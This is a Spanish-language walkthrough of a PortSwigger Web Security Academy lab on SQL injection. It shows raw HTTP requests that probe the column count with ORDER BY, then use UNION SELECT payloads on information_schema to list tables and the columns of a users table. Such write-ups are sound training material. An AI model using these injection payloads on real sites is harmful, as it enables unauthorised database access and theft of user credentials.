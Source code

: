 ```yaml
---
description: >-
  https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle
---
```


# Lab 5: SQL injection attack, listing the database contents on non-Oracle databases

Se inicia el laboratorio y al interactuar con los filtros de busqueda:

Se genera la siguiente peticion:

```
GET /filter?category=Corporate+gifts HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Y la anterior peticion responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 8912

```

Empezamos a validar el numero de campos con ORDER BY:

```
GET /filter?category='+order+by+1-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3920

```

Se procede a incrementar el valor a 2:

```
GET /filter?category='+order+by+2-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Y lo anterior responde asi:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3920

```

Y finalizamos validando con el numero 3:

```
GET /filter?category='+order+by+3-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La inyeccion previa responde con un error:

```
HTTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 2423

```

Por lo tanto, podemos afirmar que tenemos 2 campos disponibles para nuestras proximas inyecciones:

Luego de validar que tipo de dato son cada columna, podemos enumerar con el siguiente payload:

```
GET /filter?category='+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

La anterior consulta responde asi:

<figure><img src="../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

Luego de obtener los nombres de las tablas podemos intentar retornar las columnas de una tabla especifica:

```
GET /filter?category='+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_upxvct'-- HTTP/2
Host: 0aeb00b004aac525817ed54000ef0015.web-security-academy.net
Cookie: session=5YjQozT4bUZR3JR3qDg9UE97lh1xaCaY
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aeb00b004aac525817ed54000ef0015.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

El payload anterior logra retornar los nombres de las columnas de la tabla USUARIOS:

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

Utilizando los nombres de las columnas y el nombre de la tabla, se diseña una consulta que retorne los valores que tiene esta tabla:

<figure><img src="../.gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>
